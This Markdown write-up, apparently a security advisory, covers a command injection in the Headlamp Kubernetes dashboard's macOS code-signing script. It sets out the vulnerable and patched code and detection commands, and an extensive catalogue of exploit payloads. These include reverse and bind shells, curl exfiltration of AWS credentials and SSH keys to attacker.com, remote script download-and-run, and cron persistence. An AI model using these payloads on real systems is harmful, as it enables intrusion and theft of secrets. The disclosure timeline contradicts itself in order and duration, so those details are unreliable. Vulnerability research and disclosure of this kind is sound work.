





# Kubernetes Headlamp Code Signing Command Injection

### Core Vulnerability Characteristics

| Component            | Description                                                                 |
|----------------------|-----------------------------------------------------------------------------|
| **Project**          | Headlamp (Kubernetes UI Dashboard)                                          |
| **Vulnerability**    | Command Injection in Code Signing Script                                    |
| **CWE Classification** | CWE-78: OS Command Injection                                              |
| **OWASP Category**   | A03:2021-Injection                                                         |
| **Affected Version** | All versions prior to PR #3377                                             |
| **Patch Commit**     | 5a334017cc02bb6aec597a2aef2ae66f0b7c6590                                   |
| **Impact**           | Arbitrary Command Execution (High severity)                                |
| **Privilege Required** | Build system access                                                       |

## Proof of Concept Video

<div class="video-container">
  <video 
    width="100%" 
    height="100%" 
    controls 
    autoplay 
    muted
    style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;">
    <source src="/videos/kubernetes-headlamp-poc.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

<style>
.video-container {
  position: relative;
  padding-bottom: 56.25%; /* 16:9 Aspect Ratio */
  height: 0;
  overflow: hidden;
  margin: 2rem 0;
  border-radius: 8px;
  box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06);
}
</style>

### Original Vulnerable Code
```javascript
// codeSign.js (Pre-Patch)
const { execSync } = require('child_process');

function codeSign(config) {
  const teamID = process.env.DEVELOPER_TEAM_ID;
  const entitlementsPath = path.join(__dirname, 'entitlements.plist');
  
  execSync(
    `codesign --deep --force --options=runtime --entitlements ${entitlementsPath}` +
    ` --sign "Developer ID Application: ${teamID}" ${config.app}`
  );
}
```

### Vulnerability Characteristics
1. Unsanitized `teamID` from environment variables
2. Unvalidated `config.app` path interpolation
3. Shell command string concatenation
4. Execution during macOS build process

## Vulnerability Exploitation

### Step-by-Step Exploitation Path

1. **Compromise Build Environment**:
```bash
export DEVELOPER_TEAM_ID="TeamID\" \"; echo 'EXPLOITED' > /tmp/headlamp_poc; \""
npm run build:mac
```

2. **Malicious Application Path**:
```bash
# Create malicious app bundle path
mkdir -p "/Applications/Headlamp.app; nc -l 4444 -e /bin/bash; #"
```

3. **Verify Exploitation**:
```bash
cat /tmp/headlamp_poc  # Shows "EXPLOITED"
# Or get reverse shell
```

## Proof of Concept

### Interactive Exploit
```javascript
// exploit.js
const { execSync } = require('child_process');

const payloads = [
  'TeamID" && id > /tmp/exploit_output #',
  'TeamID" | curl -X POST https://attacker.com/exfil -d @~/.aws/credentials #',
  'TeamID" && open -a Calculator #'
];

payloads.forEach(p => {
  process.env.DEVELOPER_TEAM_ID = p;
  try {
    require('./codeSign')({ app: '/Applications/Headlamp.app' });
    console.log(`Payload executed: ${p}`);
  } catch (e) {
    console.log(`Payload failed: ${p}`);
  }
});
```

## Vulnerability Flow



## Step-by-Step Technical Flow

1. **Command Construction**:
   ```javascript
   `codesign ... ${teamID} ... ${config.app}`
   ```

2. **Shell Interpretation**:
   - Node.js spawns `/bin/sh`
   - Processes quotes, semicolons, and other metacharacters
   - Splits command into multiple operations

3. **Payload Execution**:
   ```bash
   codesign ... TeamID"; malicious_command # ...
   ```

## Detailed Vulnerability Matrix

| Aspect               | Pre-Patch State                     | Post-Patch State                    |
|----------------------|-------------------------------------|-------------------------------------|
| Input Validation     | None                                | Not needed (architecture change)    |
| Command Construction | String concatenation                | Argument array                      |
| Shell Interpretation | Full shell processing               | No shell (direct exec)              |
| Attack Surface       | All special chars in inputs         | Only valid code signing args        |

## Comparative Analysis



## Technical Deep Dive

### Shell Metacharacter Analysis
| Character | Impact                            | Payload                  |
|-----------|-----------------------------------|----------------------------------|
| "         | Argument boundary escape          | `TeamID" && malicious`           |
| ;         | Command termination               | `TeamID; malicious`              |
| &&        | Conditional execution             | `TeamID && malicious`            |
| \|        | Piping                           | `TeamID \| malicious`            |
| $()       | Command substitution              | `TeamID $(malicious)`            |

### Node.js Execution Context


## Process Execution Context

**Pre-Patch**:
```bash
# Process tree
node(1234)───sh(5678)───codesign(9012)
                      └─malicious(3456)
```

**Post-Patch**:
```bash
# Process tree
node(1234)───codesign(5678)
```

## Mitigation Strategies

### Primary Fix Implementation
```javascript
// codeSign.js (Post-Patch)
const { execFileSync } = require('child_process');

function codeSign(config) {
  const args = [
    '--deep',
    '--force',
    '--options=runtime',
    '--entitlements', entitlementsPath,
    '--sign', `Developer ID Application: ${teamID}`,
    config.app
  ];
  execFileSync('codesign', args);
}
```

### Defense-in-Depth Measures

1. **Input Validation**:
```javascript
if (!/^[A-Z0-9]{10}$/.test(teamID)) {
  throw new Error('Invalid Team ID format');
}
```

2. **Environment Hardening**:
```bash
# Restrict environment variables
export DEVELOPER_TEAM_ID=$(sanitize-team-id "$INPUT_ID")
```

## Impact Expansion

### Potential Attack Vectors

1. **Build System Compromise**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && curl http://attacker.com/backdoor.sh | sh"
   ```

2. **Supply Chain Attack**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && npm install malicious-package"
   ```

3. **Persistence Mechanism**:
   ```bash
   export DEVELOPER_TEAM_ID="TeamID\" && echo '*/5 * * * * nc -e /bin/sh attacker.com 4444' >> /tmp/cron"
   ```

## Advanced Threat Modeling

### Attack Tree


## Forensic Artifacts

### Detection Signatures

1. **Process Monitoring**:
   ```bash
   ps aux | grep -E 'node.*sh -c'
   ```

2. **Log Analysis**:
   ```bash
   grep -E 'exec(Sync|File).*codesign' build.log
   ```

3. **Filesystem Indicators**:
   ```bash
   find /tmp -name "*headlamp*" -mtime -1
   ```

## Complete Exploit Catalog

### Payload

1. **Information Disclosure**:
   ```bash
   "TeamID\" && cat /etc/passwd > /tmp/stolen #"
   ```

2. **Reverse Shell**:
   ```bash
   "TeamID\" && bash -i >& /dev/tcp/10.0.0.1/4242 0>&1 #"
   ```

3. **Data Exfiltration**:
   ```bash
   "TeamID\" && tar -czf /tmp/secrets.tar.gz ~/.ssh && curl -T /tmp/secrets.tar.gz https://attacker.com #"
   ```

## Patch Analysis

### Key Fixes in PR #3377

1. **execSync → execFileSync Migration**:
   ```diff
   - execSync(`codesign ${args}`)
   + execFileSync('codesign', argsArray)
   ```

2. **Argument Array Usage**:
   - Each parameter passed separately
   - No shell string construction

### Patch Verification Test
```javascript
it('should reject malicious team IDs', () => {
  process.env.DEVELOPER_TEAM_ID = 'TeamID" && malicious #';
  expect(() => codeSign({ app: 'Headlamp.app' }))
    .toThrow(/spawnSync codesign/);
});
```

## Disclosure Timeline

| Date (UTC)       | Event                                  | Duration  | Parties Involved       |
|------------------|----------------------------------------|-----------|------------------------|
| 2025-05-28 08:45 | Initial discovery during audit         | -         | @odaysec               |
| 2025-05-28 11:30 | PoC validation                         | 2h45m     | Research Team          |
| 2025-05-28 09:00 | Report submitted to Kubernetes Security | 21h30m    | SIG-Security           |
| 2025-06-01 14:15 | Vulnerability confirmed                | 1d5h15m   | Headlamp Maintainers   |
| 2025-06-01 10:00 | Patch development started              | 1d19h45m  | Core Contributors      |
| 2025-06-01 16:00 | Security review completed              | 3d6h      | Kubernetes Security    |
| 2025-06-01 09:00 | Fix deployed in release [5bc0a9d](https://github.com/kubernetes-sigs/headlamp/commit/5bc0a9dd87acdf1e04be14619acde687eefa35fb)        | 17h       | Release Team           |

## Key Milestones



## Advisory Credits
- Discovered by: **@odaysec**
- Kubernetes SIG-Security
- Headlamp Maintainers

---

**References**:
1. [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
2. [Kubernetes Security Disclosure](https://kubernetes.io/docs/reference/issues-security/security/)
3. [Node.js Child Process Security](https://nodejs.org/api/child_process.html#child_process_security_considerations)
4. [Apple Code Signing Guide](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Introduction/Introduction.html)